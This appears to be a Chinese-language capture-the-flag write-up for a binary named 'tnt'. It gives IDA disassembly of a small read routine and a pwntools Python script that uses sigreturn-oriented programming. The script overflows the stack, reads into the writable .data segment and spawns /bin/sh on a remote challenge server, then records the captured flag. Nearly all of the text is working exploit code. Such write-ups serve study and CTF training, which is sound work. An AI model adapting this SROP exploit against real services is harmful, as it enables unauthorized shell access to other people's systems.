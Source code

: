 ```assembly
4000EE 
4000EE 
4000EE TNT66666 proc near                      ; CODE XREF: _start+19↑p
4000EE sub     rsp, 10h
4000F2 xor     rax, rax
4000F5 mov     edx, 400h                       ; count
4000FA mov     rsi, rsp                        ; buf
4000FD mov     rdi, rax                        ; fd
400100 syscall                                 ; LINUX - sys_read
400102 add     rsp, 10h
400106 retn
400106 
400106 TNT66666 endp
```

写出拖进IDA分析后可知`.data`段是可写的，始于`0x600108`

## GetShell

经过泄露的程序进行分析之后更正`sysgadget`避免导致栈操作异常

`0x4000C7 => 0X400100`

```python
def pwn():
    bss = 0x600108
    readRet = 0X4000EE
    sysCall = 0X400100
    p,pb,libc = init(r="123.59.196.133:10018",log="debug",lg=0)
    #p,pb,libc = init(p="./tnt",log="debug",dbg=1)

    frame = SigreturnFrame()
    frame.rip = sysCall
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = bss
    frame.rdx = 0x400
    frame.rsp = bss
    frame.rbp = bss # read(0,0x600108,0x400) ret 0x600108
    dLog("frame")
    sleep(0.1)
    p.sendafter("hacker, TNT!\n",p64(0xdeadbeef)*2+p64(readRet)+p64(sysCall)+bytes(frame))


    dLog("0xF 1")
    sleep(0.1)
    p.send(b"A"*15)
    
    sysFrame = SigreturnFrame()
    sysFrame.rip = sysCall
    sysFrame.rax = 59
    sysFrame.rdi = bss
    sysFrame.rsi = 0
    sysFrame.rdx = 0# system(0x600108,0,0)
    dLog("sysframe")
    sleep(0.1)
    p.send(b"/bin/sh\x00"+p64(0xdeadbeef)+p64(readRet)+p64(sysCall)+bytes(sysFrame))

    dLog("0xF 2")
    sleep(0.1)
    p.send(b"A"*15)
    
    p.interactive()
    # flag{ad2e859c-45fd-404c-96b4-f8c9e2bf7187}
```